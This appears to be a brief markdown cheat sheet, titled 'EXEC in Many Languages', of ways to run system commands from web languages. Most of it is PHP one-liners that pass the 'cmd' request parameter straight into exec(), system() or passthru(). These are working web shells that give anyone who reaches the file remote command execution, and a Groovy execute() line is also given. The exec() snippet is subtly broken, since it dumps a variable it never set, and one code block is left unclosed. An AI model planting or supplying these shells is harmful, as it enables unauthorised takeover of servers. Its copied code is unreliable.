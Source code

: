 # EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages.
## PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>

## Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
